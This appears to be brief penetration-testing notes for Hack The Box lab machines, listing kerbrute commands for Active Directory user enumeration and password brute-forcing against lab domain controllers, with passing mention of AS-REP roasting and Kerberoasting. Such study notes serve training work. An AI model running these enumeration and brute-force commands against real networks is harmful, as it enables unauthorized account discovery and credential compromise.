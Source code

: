 ldapsearh (find user principal name and service name) --> valid users via kerbrute / or nmap (for keberoasting)


**verify vaild users**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum validuser-list
```

**finding password hash via service user**
`got service user name via ASREPRoasting`

```sh
 kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt
```


**verify password**
```sh
kerbrute bruteuser --dc 10.10.10.100 -d active.htb password.txt SVC_TGS
```


